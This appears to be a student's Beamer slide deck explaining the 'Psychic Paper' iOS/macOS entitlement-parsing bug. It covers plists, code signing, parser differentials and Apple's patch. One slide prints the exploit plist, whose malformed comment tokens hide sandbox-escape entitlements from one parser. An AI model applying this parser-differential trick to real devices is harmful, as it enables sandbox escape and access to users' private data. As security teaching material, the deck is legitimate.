\documentclass{beamer}
\usetheme{Madrid}
\usepackage{minted}
\usepackage{listings}
\usepackage{hyperref}
\usepackage{multicol}
\addtobeamertemplate{block begin}{\vspace*{0,3mm}}{}
\addtobeamertemplate{block end}{\vspace*{0,5mm}}

\title{Psychic Paper}
\subtitle{\href{https://siguza.github.io/psychicpaper/}{https://siguza.github.io/psychicpaper/}}
\author{Solomon Marian Claudiu - VR 419626}
\centering
\date{July 17, 2020}
\begin{document}
\maketitle

\begin{frame}\frametitle{Contents Index}
\tableofcontents
\end{frame}

\section{tl;dr}
\begin{frame}[fragile]{tl;dr}\small 
    \begin{block}{What is}
    Psychic Paper is 0-day attack that works by messing with the \emph{Entitlement} plist files to access any sensitive data within the host device exploiting a zero-day vulnerabilty of the validation process of the (XML based) plist file.\\
    This process is known as Sandbox Escape.
    \end{block}
    \begin{block}{Targets}
    The real-world impact of Psychic Paper can be detrimental as it runs on not only iPhones, but probably the \emph{entire} Apple family products including iPads, Mac, iWatch and other Apple devices.
    \end{block}
    \begin{block}{What makes it astonishing}
    \begin{multicols}{2}
        \footnotesize Basically it's two text lines long and you enter \emph{god mode} in the system:
        \begin{minted}{xml}
        <!---><!-->
        <!-- -->
        \end{minted}
    \end{multicols}
    \end{block}
\end{frame}

\section{What is a zero-day}
\begin{frame}{What is a zero-day}\small
    \begin{block}{Definition \href{https://en.wikipedia.org/wiki/Zero-day\_(computing)}{en.wikipedia.org/wiki/Zero-day\_(computing)}}
          A zero-day (also known as 0-day) vulnerability is a computer-software vulnerability that is unknown to, or unaddressed by, those who should be interested in mitigating the vulnerability (including the vendor of the target software).\\\vspace{2mm}
          Until the vulnerability is mitigated, hackers can exploit it to adversely affect computer programs, data, additional computers or a network.\\\vspace{2mm}
          An exploit directed at a \emph{zero-day} is called a \emph{zero-day exploit} or \emph{zero-day attack}.
    \end{block}
    \vfill
    \begin{exampleblock}{Fun fact :$)$}
        There is even a film about a famous one: \href{https://en.wikipedia.org/wiki/Zero\_Days}{\textcolor{red}{wikipedia.org/wiki/Zero\_Days}}
    \end{exampleblock}
\end{frame}

\section{What is XML}
\begin{frame}{What is XML}
    \begin{block}{Definition \small\href{https://en.wikipedia.org/wiki/XML}{en.wikipedia.org/wiki/XML}}
          Extensible Markup Language (XML) is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. The World Wide Web Consortium's XML 1.0 Specification of 1998 and several other related specifications (all of them free open standards) define XML.
    \end{block}
    \begin{block}{Goal}
    The design goals of XML emphasize simplicity, generality, and usability across the Internet. It is a textual data format with strong support via Unicode for different human languages.\\ Although the design of XML focuses on documents, the language is widely used for the representation of arbitrary data structures such as those used in web services and all kind of software configurations.
    \end{block}
\end{frame}

\section{Why XML is difficult}
\begin{frame}[fragile]\frametitle{Why XML is difficult}
    \begin{block}{\href{https://wiki.c2.com/?XmlSucks}{wiki.c2.com/?XmlSucks}}
        Entire sites are dedicated to this topic but actually given its verbosity and redundancy parsing XML it's \emph{reasonably} easy when correctly constructed .\\
    \begin{minted}{xml}
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE figment-of-my-imagination>
    <container>
        <meow>value</meow>
        <whatever/>
    </container>
    <!-- herp -->
    <idk a="b" c="d">xyz</idk>
        \end{minted}
        Basically in a few words: "XML represents just a tree with attribute name/attribute value associative arrays".\\\vspace{2mm}
        What's really challenging is the \textcolor{red}{validation} process. 
    \end{block}
\end{frame}

\section{Why XML validation is difficult}
\begin{frame}[fragile]{Why XML validation is difficult}
    \begin{figure}
        
\includegraphics[scale=0.75]{tags.png}
        \\{\footnotesize\href{https://xkcd.com/1144/}{xkcd.com/1144}}
    \end{figure}
    \begin{flushleft}
    So yeah, you can construct things like this:
    \begin{itemize}
        \item\mintinline{xml}|<mis>matched</tags>|
        \item\mintinline{xml}|<attributes that="are never closed>|
        \item\mintinline{xml}|<tags that are never closed|
        \item\mintinline{xml}|<!>|
    \end{itemize}
    the list simply doesn’t end.\vspace{5mm}\\
    This makes XML a format that’s excruciatingly hard to process \textcolor{red}{correctly} with malformed or \emph{malicious} XML, which will become relevant in a bit.
    \end{flushleft}
\end{frame}

\section{About Apple Sandbox}
\begin{frame}{About Apple Sandbox}
    \begin{block}{\small\href{https://developer.apple.com/library/archive/documentation/Security/Conceptual/AppSandboxDesignGuide/AboutAppSandbox/AboutAppSandbox.html}{developer.apple.com/library/archive/documentation/Security}}
          App Sandbox is an access control technology provided in iOS (and other Apple software), enforced at the kernel level. It is designed to contain damage to the system and the user’s data if an app becomes compromised. Apps distributed through the App Store \emph{must} adopt App Sandbox.
    \end{block}
    
\includegraphics[width=\textwidth,height=\textheight,keepaspectratio]{about_sandboxing.png}
\end{frame}

\section{Why Apple signs iOS apps}
\begin{frame}{Why Apple signs iOS apps}\footnotesize 
    \begin{block}{Code Signing\,\,\small\href{https://developer.apple.com/support/code-signing/}https://developer.apple.com/support/code-signing/}
        Code signing your app assures users that it is from a known source and the app hasn’t been modified since it was last signed. Before your app can integrate app services, be installed on a device, or be submitted to the App Store, it must be signed with a certificate issued by Apple. 
    \end{block}
    \begin{block}{Limitations of Code Signing}
        Code signing is one component of a complete security solution, working in concert with other technologies and techniques. It does not address every possible security issue.\\\vspace{1mm}
        Code signing does not:
        \begin{itemize}
            \item Guarantee that a piece of code is free of security vulnerabilities.
            \item Guarantee that an app will not load unsafe or altered code—such as untrusted plug-ins—during execution. {\tiny \textcolor{orange}{At least not always}}
            \item Provide digital rights management (DRM) or copy protection technology.\\Code signing does not in any way hide or obscure the content of the signed code.
        \end{itemize}
    \end{block}
\end{frame}

\section{Property list}
\begin{frame}[fragile]\frametitle{Property list \small{file extension: “.plist”}}\footnotesize
    \begin{flushleft}
        Building on XML, we have “property list”, or “plist” for short: yet another general-purpose format for storing serialised data.\\\vfill You have arrays, dictionaries with key:value pairs, strings, numbers, etc.\\\vfill
        A valid XML plist can look something like this:
    \end{flushleft}
    \begin{multicols}{2}
    \begin{minted}[fontsize=\tiny]{xml}
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
    "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>OS Build Version</key>
    <string>19D76</string>
    <key>IOConsoleLocked</key>
    <false/><!-- abc -->
    <key>IOConsoleUsers</key>
    <array><dict>
            <key>kCGSSessionUserIDKey</key>
            <integer>501</integer>
            <key>kCGSessionLongUserNameKey</key>
            <string>Siguza</string>
    </dict></array><!-- def -->
    <key>IORegistryPlanes</key>
    <dict>
        <key>IODeviceTree</key>
        <string>IODeviceTree</string>
        <key>IOService</key>
        <string>IOService</string>
    </dict>
</dict>
</plist>
    \end{minted}
    \end{multicols}
    Plist files are used all throughout iOS and macOS for configuration files, package properties, and last but not least as \textcolor{red}{part of code signatures}.
\end{frame}

\section{The good stuff}
\begin{frame}[fragile]{Now the real problem for Apple}
\begin{flushleft}
When a binary wants to run on iOS, a kernel extension called AppleMobileFileIntegrity (or “AMFI”) requires it to have a valid code signature, or else it will be killed on the spot.
\vfill\par This signature can be validated in one of two ways:
\begin{enumerate}
    \item \small It can be known to the kernel ahead of time, which is called an “ad-hoc” signature.
    \begin{itemize}
     \item \footnotesize This is used for iOS system apps and daemons, and the hash is simply checked against a collection of known hashes directly in the kernel.
   \end{itemize}
    \item \small It needs to be signed with a valid code signing certificate.
    \begin{itemize}
     \item \footnotesize This is used for all 3rd party apps, and in this scenario, AMFI calls out to the userland daemon \emph{amfid} to have it run all the necessary checks.
   \end{itemize}
\vfill
\color{red}{NB: } the hash function used in this process must have the \emph{second-preimage resistance} property otherways would be trivial to use a valid signature, for example of an Apple system app, to run a specifically forged arbitrary code.
\end{enumerate}
\end{flushleft}
\end{frame}

\begin{frame}[fragile]
\begin{flushleft}
Now, code signing certificates come in two forms:\vfill
\begin{enumerate}
  \item The App Store certificate.
  \begin{itemize}
      \item This is held only by Apple themselves and in order to get signed this way, your app needs to pass the App Store review.
  \end{itemize}
  \item Developer certificates.
  \begin{itemize}
      \item “7-day” free certificates
      \item regular developer certificate
      \item enterprise distribution certificates
  \end{itemize}
\end{enumerate}
\vfill
{\footnotesize In the \emph{latter} case, the app in question will also require a “provisioning profile”, a file that Xcode (or some 3rd party software) can fetch, and that needs to be placed in the App.ipa bundle at Your.app/embedded.mobileprovision.}\\\vspace{4mm}
This file is signed by Apple themselves, and specifies the duration, the list of devices, and the developer accounts it is valid for, as well as \textcolor{red}{all the restrictions} that should apply to the app.
\end{flushleft}
\end{frame}

\begin{frame}[fragile]
\begin{flushleft}
\small In a standard UNIX environment, pretty much the only security boundaries you get are UID checks.\vfill
\par Processes of one UID can’t access resources of another UID, and any resource deemed “privileged” requires UID 0, i.e. “root”. iOS and macOS still use that, but also introduce the concept of “entitlements”.\vfill
\par In layman’s terms, entitlements are a list of properties and/or privileges that should be applied to your binary.\vfill
\par If present, they are embedded in the code signature of your binary, in the form of a XML plist file, which might look like this::\vspace{2mm}
\begin{multicols*}{2}
\begin{minted}[fontsize=\small]{xml}
<plist version="1.0">
<dict>
    <key>task_for_pid-allow</key>
    <true/>
</dict>
</plist>
\end{minted}
\footnotesize This would mean that the binary in question “holds the task\_for\_pid-allow entitlement”, which in this specific case means is allowed to use the task\_for\_pid() mach trap, which is otherwise not allowed at all (at least on iOS).
\end{multicols*}
\end{flushleft}
\end{frame}


\begin{frame}[fragile]
\begin{flushleft}\small
Such entitlements are checked all throughout iOS and macOS and there’s well upwards of a thousand different ones in existence {\footnotesize(\href{http://newosxbook.com/ent.jl}{newosxbook.com/ent.jl})}.
\vfill
The important thing is just that all 3rd party apps on iOS are put in a containerised environment where they have access to as few files, services and kernel APIs as possible, and entitlements can be used to poke holes in that container, or \textcolor{orange}{remove it entirely}.
\vfill
This presents an interesting problem. With iOS system apps and daemons, Apple is the one signing them, so they wouldn’t put any entitlements on there that they don’t want the binaries to have.
The same goes for App Store apps, where Apple is the one creating the final signature.
\vfill
But with developer certificates, the signature on the binary is created by the developers themselves, and Apple merely signs the provisioning profile. This means that the provisioning profile must create a list of allowed entitlements, or the iOS security model is toast right away.
\end{flushleft}
\end{frame}

\section{The Bug}
\begin{frame}[fragile]{The Bug}\footnotesize
\begin{flushleft}
iOS doesn’t have just one, or two, or even three plist parsers, it has at least four!
\begin{enumerate}
    \item IOCFUnserialize in IOKitUser {\tiny [alias:\emph{IOKit} ]}
    \item OSUnserializeXML in the kernel {\tiny [equivalent to \emph{IOKit} ]}
    \item xpc\_create\_from\_plist in libxpc {\tiny [alias: \emph{XPC} ]}
    \item CFPropertyListCreateWithData in CoreFoundation {\tiny [alias: \emph{CF} ]}
\end{enumerate}
\vfill
So the three interesting questions that arise from this are:
\begin{itemize}
    \item Which parsers are used to parse entitlements? {answer: all of them!}
    \item Which parser does \emph{AMFId} use? {answer: \emph{CF}}
    \item And do all parsers return the same data? {answer: \textcolor{red}{nope!}}
\end{itemize}
\vfill
Valid XML makes all parsers return the same data, but slightly invalid XML makes them return just slightly not the same data! \textcolor{red}{:D}\vfill\small
In other words, any parser difference can be exploited to make different parsers see different things. This is the very heart of this bug, making it not just a logic flaw, but a system-spanning design flaw.
\end{flushleft}
\end{frame}

\section{The Exploit}
\begin{frame}[fragile]{The Exploit}
\begin{flushleft}
\begin{minted}[fontsize=\small]{xml}
<plist version="1.0">
<dict>
    <!---><!-->
    <key>com.apple.private.security.no-container</key>
    <true/>
    <key>task_for_pid-allow</key>
    <true/>
    <!-- -->
</dict>
</plist>
\end{minted}
\vfill
The interesting tokens here are \mintinline{xml}|<!--->| and \mintinline{xml}|<!-->| which are not valid XML tokens.\\\vfill
Nonetheless, IOKit, CF and XPC all accept the above XML/plist, just they don't produce \textcolor{red}{ exactly the same output}.
\end{flushleft}
\end{frame}

\begin{frame}[fragile]
\begin{flushleft}
\begin{minted}[fontsize=\footnotesize]{json}
{ }
{
    "task_for_pid-allow": true,
    "com.apple.private.security.no-container": true,
}
{
    "com.apple.private.security.no-container": true,
    "task_for_pid-allow": true,
}
\end{minted}
\vfill
At the top is what CF see, followed by IOKit, and finally XPC.
\vfill
This means that when we slap the above entitlements file on our app and amfid uses CF to check whether we have any entitlements that the provisioning profile doesn’t allow, it doesn’t see any.
\vfill
But then when the kernel or some daemon wants to check whether we’re allowed to do \textcolor{orange}{Fun Stuff™}, they see we have all the permissions for it! \textcolor{orange}{:D}
\end{flushleft}
\end{frame}

\begin{frame}[fragile]
\begin{flushleft}
From this point forward, it’s simply a matter of picking entitlements,\\ get some entitlements to dynamically load or generate code,\\you can spawn a shell, or any of literally a thousand other things.\\\vfill
For the previous plist entitlements we would get:
\end{flushleft}
\begin{itemize}\small
    \item \emph{com.apple.private.security.no-container}\\This prevents the sandbox from applying any profile to our process whatsoever, meaning we can now read from and write to any location the mobile user has access to, execute a ton of syscalls, and talk to many hundreds of drivers and userland services that we previously weren’t allowed to. And as far as user data goes, security no longer exists.
\vfill
    \item \emph{task\_for\_pid-allow}\\Just in case the file system wasn’t enough, this allows us to look up the task port of any process running as mobile, which we can then use to read and write process memory, or directly get or set thread register states.\\
    \vspace{1mm}
    \tiny\href{https://siguza.github.io/psychicpaper/#4-escaping-the-sandbox}{from iOS 11 (mid 2017) Apple made it a little more tricky to do this but with some tinkering it's still possible.}
\end{itemize}

\end{frame}

\section{The Patch}
\begin{frame}[fragile]{The Patch}
\begin{flushleft}
Given the elusive nature of this bug, how did Apple ultimately patch it?
\vfill
\small \textcolor{orange}{Obviously there could only be one way: by introducing one more Plist parser!}
\vfill
\small{Apple’s final fix consists of introducing a new function called \emph{AMFIUnserializeXML}, which is pasted into both \emph{AMFI.kext} and \emph{amfid}, and is used to compare against the results of \emph{OSUnserializeXML} and \emph{CFPropertyListCreateWithData} to make sure they are the same.
\vfill 
You can still include a sequence like \mintinline{xml}|<!---><!--><!-- -->| in your entitlements and it will go through, but try and sneak anything in between those comments, and \emph{AMFI} will tear your process to shreds and report to syslog:}
\begin{alertblock}{AMFI:}
detected an anomaly during entitlement parsing.
\end{alertblock}
\end{flushleft}
\end{frame}

\section{Conclusions}
\begin{frame}{Conclusions}
Apple has a problem with validation of things, all sort of them! \textcolor{orange}{:$)$}
    \begin{multicols}{2}
    
\includegraphics[scale=0.2125]{gotofail}
    
\includegraphics[scale=0.2125]{empty-pw}
    \end{multicols}
\small\href{https://dwheeler.com/essays/apple-goto-fail.html}{dwheeler.com/essays/apple-goto-fail}
\small\href{https://arstechnica.com/information-technology/2017/11/macos-bug-lets-you-log-in-as-admin-with-no-password-required/}{arstechnica.com/information-technology/2017/11/macos-bug}
\end{frame}

\begin{frame}{Real concerns}
\begin{flushleft}
The author of this paper said that he found this 0day in early 2017,\\ but given the code history (at least what is publicly available) it's actually very possibly that many other entities had discoverd this even years before that and used it out in the wild.
\vfill
Given that Apple has always boasted of having an excellent App review team for the App Store, it is reasonable to think that no one has used this 0-day on applications available on the official App Store.
\vfill 
Completely different situation for all the myriad of applications distributed through unofficial channels on the different platforms where you can trust, really \color{red}{no one!}.
\end{flushleft}
\end{frame}

\section{References}
\begin{frame}[fragile]{References}
\begin{block}{Paper}
\href{https://siguza.github.io/psychicpaper/}{https://siguza.github.io/psychicpaper/}
\end{block}
\begin{block}{A real attack using this 0-day}
\href{https://wojciechregula.blog/post/stealing-your-sms-messages-with-ios-0day/}{https://wojciechregula.blog/post/stealing-your-sms}
\end{block}
\end{frame}

\end{document}
